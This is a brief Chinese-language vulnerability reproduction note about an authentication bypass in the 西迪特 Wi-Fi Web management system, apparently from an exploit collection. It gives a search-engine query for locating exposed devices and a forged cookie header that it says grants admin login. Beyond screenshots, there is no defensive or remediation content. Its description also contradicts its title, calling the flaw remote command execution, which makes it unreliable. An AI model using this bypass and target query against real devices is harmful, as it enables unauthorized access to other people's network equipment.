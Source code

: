 # 西迪特 Wi-Fi Web管理 Cookie 越权访问漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

```
西迪特 Wi-Fi Web管理
```

## 网络测绘

```
title=="Wi-Fi Web管理"
```

## 漏洞复现o

登录页面

![image-20220519183944313](./images/202205191839372.png)

添加Cookie，即可登录后台

```
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

![image-20220519184113756](./images/202205191841849.png)